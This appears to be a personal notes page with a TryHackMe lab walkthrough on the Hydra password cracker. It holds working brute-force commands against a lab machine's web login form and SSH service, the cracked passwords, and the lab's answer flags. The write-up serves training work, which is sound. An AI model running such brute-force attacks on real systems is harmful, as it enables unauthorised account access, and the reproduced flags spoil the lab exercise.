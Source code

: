 ```yaml
---
{"dg-publish":true,"permalink":"/my-digital-garden/","tags":["gardenEntry"],"created":"2025-02-06T18:51:33.711-05:00","updated":"2025-02-06T21:39:25.993-05:00"}
---
```


Testing 123

Trying this out again 


![](/img/user/TryHackMe/THM_Images/c0b5125ed3719685b8ea6c74db9914ad.png)

# Task 2 - Using Hydra

| Option            | Description                                                                            |
| ----------------- | -------------------------------------------------------------------------------------- |
| -l                | specifies the (SSH) username for login                                                 |
| -P                | indicates a list of passwords                                                          |
| -t                | sets the number of threads to spawn                                                    |
| http-post-form    | the type of the form is POST                                                           |
| path              | the login page URL, for example, login.php                                             |
| login_credentials | the username and password used to log in, for example, username=^USER^&password=^PASS^ |
| invalid_response  | part of the response when the login fails                                              |
| -V                | verbose output for every attempt                                                       |

- Example command to brute force ftp    
    - `hydra -l user -P passlist.txt [ftp://MACHINE_IP](ftp://MACHINE_IP)`
- Another example
    - `hydra -l <username> -P <wordlist> 10.10.71.57 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

> [!Question]
> **Use Hydra to bruteforce molly's web password. What is flag 1?**

![Exported image](/img/user/TryHackMe/THM_Images/6acea8dcaa459a0a51bc6bac7a46278c.png)  

Checking the page source tells us that its using a "POST" method as the request type
 ![Exported image](/img/user/TryHackMe/THM_Images/4caa7657ba57ccde9af7565786a80179.png)

Ran the command

```
hydra -l molly -P rockyou.txt 10.10.71.57 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect"
```
   
![Exported image](/img/user/TryHackMe/THM_Images/d3bfcde61619b5012049d3a2a6e334f6.png)  

Using the username, molly, and the password, sunshine, allows us to make it through and login to find the flag.

![Exported image](/img/user/TryHackMe/THM_Images/8b26c6071413b8325dd2a902f06fd47d.png)  

> [!Success] Answer
> THM{2673a7dd116de68e85c48ec0b1f2612e}

> [!Question]
> **Use Hydra to bruteforce molly's SSH password. What is flag 2?** 

Used the following command to find the SSH password: 

```
hydra -l molly -P rockyou.txt 10.10.71.57 -t 4 ssh
```

![Exported image](/img/user/TryHackMe/THM_Images/b63f779eaf9859ed2e22f534b6bea215.png)  

Then SSH'd into molly's machine to get the flag using the password, butterfly.

![Exported image](/img/user/TryHackMe/THM_Images/12d9adee146e29ab4487aaf9bc440b49.png)  

> [!Success] Answer
> `THM{c8eeb0468febbadea859baeb33b2541b`}
